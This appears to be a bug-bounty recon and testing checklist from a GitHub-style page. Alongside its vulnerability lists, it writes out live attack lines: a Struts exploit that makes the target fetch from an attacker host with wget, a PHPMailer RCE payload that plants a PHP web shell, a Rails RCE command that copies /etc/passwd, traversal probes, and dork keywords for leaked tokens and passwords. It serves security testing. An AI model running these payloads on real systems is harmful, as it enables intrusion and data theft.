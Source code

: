 #					My Bug-Bounty Recon Process

### Recon Process in two part 

    1-Automation
    2-Manual
    3-After Recon: Exploit

**1- Start Automation in background, while automating time you can manually check all features of web and check every thing, Don't forget to analyse `source code`**

	1 Gather Subdomain
	2 Gather URLs,GF-Pattern
	3 Gather JS File
	4 Gather IP,Port
	5 Google/Github Dorking

### 2- Let's check mannually all vulnerability types.

<details><summary>Bug</summary>
<p>

#### We can hide anything, even code!
	- Blind XSS
		- Blind XSS payload in User-Agent header
		- BXSS Payload while logging (Enter the BXSS Payload in forgot pass, login, singup to generate errors)
		- Use BXSS Pyload as your password
	- Add Header in the Match an Replace Proxy- Add X-Forwarded-Host: evil.com - browse the program and then click burp search and try to find your X-Forwarded-Host: Value for web chache deception,poisoning.

	- HTTP Request Sumggling > Ihave give this ariticle and tool in my telegram.
	- Apply on .html to xhtml
	- python struts-pwn.py -u http://site.com/orders.xhtml -c "wget http://ip:1337/test" --exploit
	- Test For Electronic code book (AAAAAAA aaaaaa BBBBBB)
	- CVE-2016-10033: PHPMailer RCE
		- email: "attacker@127.0.0.1\" -oQ/tmp/ -X/var/www/shell.php root"127.0.0.1
		- subject: <?php system($_GET['cmd']);?>

	- Change all the request to TRACE method to disclose or access info.
	- Check For broken link - tool: blc https://comany.com -ro 

	- companyname.atlassian.net
	- jira.companyname.com
	- VHOST Testing
	- Test For buckets
	- Check Github & dork list
		(api,token,username,password,secret,dev,prod,jenkins,config,ssh,ftp,MYSQL_PASSWORD,admin,AWS,bucket,GITHUB_TOKEN)
	- gau or gauplus site.com
	- waybackurl site.com
	- Accessing misconfigured data of an org: https://storage.googleapis.com/<org-name>
	- Unautorized access to org's google groups: https://groups.google.com/a/<org-name>
	- if running ruby on rails then: Accept: ../../../../../../../../../etc/passwd{{
	- CVE-2013-0156: Rails Object injection: ruby rails_rce.rb http://site.com 'cp /etc/passwd public/file.txt'
		(raw- https://gist.github.com/postmodern/4499206/raw/a68d6ff8c1f9570a09365036aeb96f6a9fff7121/rails_rce.rb)
		(https://gist.github.com/postmodern/4499206)
	- CVE-2013-0156 Hint: PHP based website on NGINX phpip-fpizdam http://site.com/anyphpfile.php
	- Check FOr crlf injection
	- Bypass Open redirection protection
	- keyfinder
	- Google Dork
	> check email verfication admin@site.com
	> site.com/home/....4....json [will disclose all the content of the home dir | sensitive info]
	- CVE-2019-19781 Ciritix NetScaler Directory Traversal: curl -vk -path-as-is https://$target/vpn/../vpns/ 2>&1 | grep "You don't have permission to access /vpns/" >/dev/null && echo "Vulnerable $Target" || echo "MITIGATED: $TARGET"



</p>
</details>

## Specific Buf List:
	
- [ ] Authentication
- [ ] OAuth authentication
- [ ] SQL injection
	- Use GF to grep all possible sqli parameter
	- Use SQLi [Destector](https://github.com/eslam3kl/SQLiDetector?s=09)
	- Use User-Agent fuzzer for [sqli](https://github.com/root-tanishq/userefuzz)
	- Use Error base sqli template nuclei.
	- Blind SQLi and Time Base SQLi [too](https://github.com/JohnTroony/Blisqy?s=09)


- [ ] XSS
<details><summary>XSS Check list and TIPs</summary>
<p>
	
  -  Stored XSS	
  -  Reflect XSS 	
  -  DOM XSS 	
  -  Blind XSS 	
  -  Header injection 	
  -  XSS in cookie body, Local Storage	
  -  Proto type pollution 	
  -  HTMLi
	
### XSS hunting with ffuf
```ffuf -w /usr/share/wordlists/dirb/big.txt -u https://rob-sec-1.com/FUZZ -o Ffuf/Recruitment.csv -X HEAD -of csv```
	
What this tool will do is try to enumerate different directories within the application,replacing FUZZ with items from the big.txt list of words. If we sneak peek a sample of this file:
	
Running the above generated the following CSV that we can read from the Linux terminal using the ```column``` command:
```column -s, -t Ffuf/Recruitment.csv```

[Refrence](https://markitzeroday.com/xss/hidden/reflected/content-discovery/bug-bounty/2020/03/03/xss-hunting.html)

</p>
</details>

- [ ] CSRF
- [ ] IDOR
- [ ] Clickjacking
- [ ] DOM-based
- [ ] vCORS
- [ ] XXE
- [ ] SSRF

       - Try SSRF in Referer header : Shellshock Exploitation 
       - Test with match and replace in burp 
       - Read SSRF Checklist 
- [ ] Request smuggling
- [ ] Command injection
- [ ] Server-side template injection
       - [Try This Tool](https://github.com/faiyazahmad07/SSTI_DETECTOR)
       
- [ ] Insecure deserialization
- [ ] Directory traversal
- [ ] Access control
- [ ] Business logic vulnerabilities
- [ ] Web cache poisoning
- [ ] HTTP Host header attacks
- [ ] WebSockets
- [ ] Information disclosure
- [ ] File upload vulnerabilities
- [ ] JWT attacks





### Subdomain Takeover: 
- *Try a tool name subzy*
- *Try this subjack*
	subjack -w subdomain.txt -t 20 -timeout 30 -o subjack1.txt -ssl -a -c "/root/fingerprints.json"
	subzy -targets host.txt --hide_fails --concurrency 100
	
- Try [DNS-Reaper](https://www.kitploit.com/2022/08/dnsreaper-subdomain-takeover-tool-for.html?m=1) 
